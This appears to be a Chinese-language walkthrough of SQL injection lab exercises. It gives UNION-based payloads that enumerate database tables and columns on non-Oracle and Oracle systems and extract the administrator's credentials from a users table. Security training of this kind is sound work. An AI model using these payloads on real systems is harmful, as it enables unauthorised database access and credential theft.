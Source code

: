 - ![image-20221117214909355](images/image-20221117214909355.png)

### T8列出非Oracle数据库的内容

```SQL
' union select 'null','null'#
' union select table_name,null from information_schema.tables--
```

找到可能的用户名-密码表“users_czbssr”

```SQL
' union select column_name,null from information_schema.columns WHERE table_name='users_czbssr'--
```

找到可能的两个列名username_cbmpsc、password_tcusrs

```SQL
' union select username_cbmpsc,password_tcusrs from users_czbssr--
```

找到administrator对应的密码。

### T9列出Oracle上的数据库内容

判断出有两个都为字符类型的列：

```SQL
Lifestyle'+union+select+'null','null'+from+dual--
```

Oracle查表用`all_tables`

```SQL
Lifestyle'+union+select+table_name,'null'+from+all_tables--
```
